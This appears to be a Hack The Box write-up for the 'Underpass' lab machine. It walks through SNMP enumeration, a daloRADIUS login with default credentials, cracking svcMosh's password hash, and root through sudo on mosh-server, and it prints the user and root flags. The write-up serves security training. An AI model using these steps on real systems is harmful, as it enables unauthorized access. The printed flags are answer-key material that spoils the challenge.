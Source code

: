 
[[HTB]] : [[Machines]]

**IP:** 10.10.11.48  
**Date:** 08/01/2025  

---

### **Enumeration**

#### **Nmap Scan Results**
- **Open Ports:**  
  - TCP 22: OpenSSH 8.9p1 (Ubuntu 3ubuntu0.10)  
  - TCP 80: Apache/2.4.52 (Outdated Version)  

- **UDP Scan on Port 161 (SNMP):**  
  - SNMPv1 server detected  
  - Net-SNMP SNMPv3 server with default community string (`public`)  

---

### **[[SNMP]] Enumeration**

Using the default SNMP community string `public`:
```bash
snmpwalk -v 1 -c public 10.10.11.48
```

#### **Results:**
- **System Information:**  
  - `iso.3.6.1.2.1.1.1.0 = STRING: "Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64"`

- **Admin Contact:**  
  - `iso.3.6.1.2.1.1.4.0 = STRING: "steve@underpass.htb"`

- **Hostname:**  
  - `iso.3.6.1.2.1.1.5.0 = STRING: "UnDerPass.htb is the only daloradius server in the basin!"`

- **Location:**  
  - `iso.3.6.1.2.1.1.6.0 = STRING: "Nevada, U.S.A. but not Vegas"`

---

### **Web Server Discovery**
- **Apache Default Page:** Found at `http://underpass.htb`.  
- **Daloradius Login Page:** Found at `http://underpass.htb/daloradius/app/operators/login.php`.

#### **Default Credentials:**
Using the default Daloradius credentials:
```plaintext
Username: administrator  
Password: radius  
```
Access granted.

---

### **Exploitation**

#### **Discovered User: svcMosh**
From Daloradius, identified the existence of the `svcMosh` user and retrieved their hashed password:  
```plaintext
412dd4759978acfcc81deab01b382403
```

#### **Password Cracking:**
Using `hashcat`, the password was cracked:
```plaintext
underwaterfriends
```

#### **Gaining SSH Access:**
SSH into the server as `svcMosh`:
```bash
ssh svcMosh@underpass.htb
```

#### **User Flag:**
```plaintext
a7e8df8da8d1980a29aa88306de320f5
```

---

### **Privilege Escalation**

#### **Sudo Permissions:**
The `svcMosh` user has permission to run `/usr/bin/mosh-server` as `sudo`.

#### **Exploitation Command:**
Privilege escalation can be achieved using:
```bash
mosh --server="sudo /usr/bin/mosh-server" localhost
```

#### **Root Flag:**
After escalating to root:
```bash
root@underpass:~# cat root.txt
cc2d0fa21831180a33da0fdd267d0a02
```

---

### **Summary:**
1. **Enumeration:** Discovered open ports (22, 80, 161), outdated software, and misconfigured SNMP.  
2. **Exploitation:** Used Daloradius default credentials to obtain `svcMosh`'s MD5 password hash. Cracked the hash and gained SSH access.  
3. **Privilege Escalation:** Leveraged sudo permissions on `/usr/bin/mosh-server` to escalate to root.  

---











